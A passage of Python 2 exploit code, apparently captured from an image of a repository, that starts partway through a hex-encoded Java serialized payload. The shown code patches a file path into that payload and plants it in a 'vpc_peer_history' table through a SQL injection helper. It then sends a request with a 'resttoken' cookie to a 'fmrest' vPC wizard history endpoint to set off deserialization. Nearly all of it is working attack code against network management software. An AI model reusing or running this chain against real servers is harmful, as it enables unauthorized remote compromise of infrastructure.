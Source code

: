 ```python
    6e63757272656e742e6c6f636b732e5265656e7472616e744c6f636b6655
    a82c2cc86aeb0200014c000473796e6374002f4c6a6176612f7574696c2f
    636f6e63757272656e742f6c6f636b732f5265656e7472616e744c6f636b
    2453796e633b7870737200346a6176612e7574696c2e636f6e6375727265
    6e742e6c6f636b732e5265656e7472616e744c6f636b244e6f6e66616972
    53796e63658832e7537bbf0b0200007872002d6a6176612e7574696c2e63
    6f6e63757272656e742e6c6f636b732e5265656e7472616e744c6f636b24
    53796e63b81ea294aa445a7c020000787200356a6176612e7574696c2e63
    6f6e63757272656e742e6c6f636b732e4162737472616374517565756564
    53796e6368726f6e697a65726655a843753f52e302000149000573746174
    65787200366a6176612e7574696c2e636f6e63757272656e742e6c6f636b
    732e41627374726163744f776e61626c6553796e6368726f6e697a657233
    dfafb9ad6d6fa90200007870000000003f4000007371007e00647371007e
    0068000000003f4000007371007e00647371007e0068000000003f400000
    7371007e00647371007e0068000000003f4000007371007e00647371007e
    0068000000003f4000007371007e00647371007e0068000000003f400000
    7371007e00647371007e0068000000003f4000007371007e00647371007e
    0068000000003f4000007371007e00647371007e0068000000003f400000
    7371007e00647371007e0068000000003f4000007371007e00647371007e
    0068000000003f4000007371007e00647371007e0068000000003f400000
    7371007e00647371007e0068000000003f4000007371007e00647371007e
    0068000000003f4000007371007e00647371007e0068000000003f400000
    7371007e00647371007e0068000000003f40000070707871007e00577100
    7e0020770400000003737200116a6176612e6c616e672e496e7465676572
    12e2a0a4f781873802000149000576616c7565787200106a6176612e6c61
    6e672e4e756d62657286ac951d0b94e08b02000078700000000171007e00
    8d78""" % filename.encode("hex")

    d = ''.join(ser.split()).decode("hex")

    # patch the length if its shorter
    vfs_path = str(vfs)
    while (len(vfs_path) != 45):
        vfs_path += "/"

    d = d.replace('xxxxxxxxxxxxxxxxxxxx/yyyyyyyyyyyyyyyyyyyyyyyy', vfs_path)
    d = d.encode("hex")

    sql = "delete from vpc_peer_history where id=1337;"
    sql += "insert into vpc_peer_history(id, commands) values (1337, decode('%s', 'hex'));" % d
    if we_can_trigger_sqli(target, sql):
        return True
    return False

def we_can_trigger_deserialization(target):
    uri = "https://%s/fm/fmrest/virtualportchannel/vpcwizard/history/details" % target
    p = {"context": 1337, "jobId": 1337}
    c = { "resttoken" : resttoken }
    r = requests.get(uri, cookies=c, params=p, verify=False, allow_redirects=False)
    if r.status_code == 200:
        return True
    return False
```
